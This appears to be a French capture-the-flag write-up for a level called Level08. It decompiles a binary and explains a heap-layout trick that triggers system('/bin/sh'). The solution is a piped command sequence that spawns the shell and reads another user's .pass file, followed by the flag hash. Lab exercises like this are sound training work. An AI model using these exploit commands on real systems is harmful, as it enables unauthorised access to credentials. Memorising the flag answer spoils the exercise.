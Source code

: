 # Rapport CTF - [Level08]

### Observation :
En arrivant sur le level8 on trouve un exécutable nommé level8.\
Quand nous essayons de le lancer, et nous obtenons une chaîne de caractère `(nil), (nil)` qui se répète dès que l'on fini une string. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[5]; // [esp+20h] [ebp-88h] BYREF
  char v5[2]; // [esp+25h] [ebp-83h] BYREF
  char v6[129]; // [esp+27h] [ebp-81h] BYREF

  while ( 1 )
  {
    printf("%p, %p \n", auth, (const void *)service);
    if ( !fgets(s, 128, stdin) )
      break;
    if ( !memcmp(s, "auth ", 5u) )
    {
      auth = (char *)malloc(4u);
      *(_DWORD *)auth = 0;
      if ( strlen(v5) <= 0x1E )
        strcpy(auth, v5);
    }
    if ( !memcmp(s, "reset", 5u) )
      free(auth);
    if ( !memcmp(s, "service", 6u) )
      service = (int)strdup(v6);
    if ( !memcmp(s, "login", 5u) )
    {
      if ( *((_DWORD *)auth + 8) )
        system("/bin/sh");
      else
        fwrite("Password:\n", 1u, 0xAu, stdout);
    }
  }
  return 0;
}
```
Ok, que nous donne ce code:
- si on fait `"auth "` on malloc 4 octets.
- si on fait `"reset"` on free auth.
- si on fait `"servic"` (uniquement, 6 a comparé.) on malloc `v6 = 128`.
- si on fait `"login"` on regarde si auth + 8 n'est pas vide pour `/bin/sh`, sinon cela écrit `"Password:\n"` .

### Solution :
Le but est donc de créer `auth` puis mettre de la mémoire a auth+8 avec `servic` puis essayer de `login` pour avoir accès a un shell.

On fait la commande suivante pour obtenir le flag :
```sh
(echo "auth "; echo "servic";echo "service"; echo "login"; echo $(echo "cat /home/user/level9/.pass")) | ./level8
--------------------------------------------------
(echo "auth "; echo "servicE0123456789abcdef"; echo "login"; echo $(echo "cat /home/user/level9/.pass")) | ./level8

```

### Resultat :
```sh
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
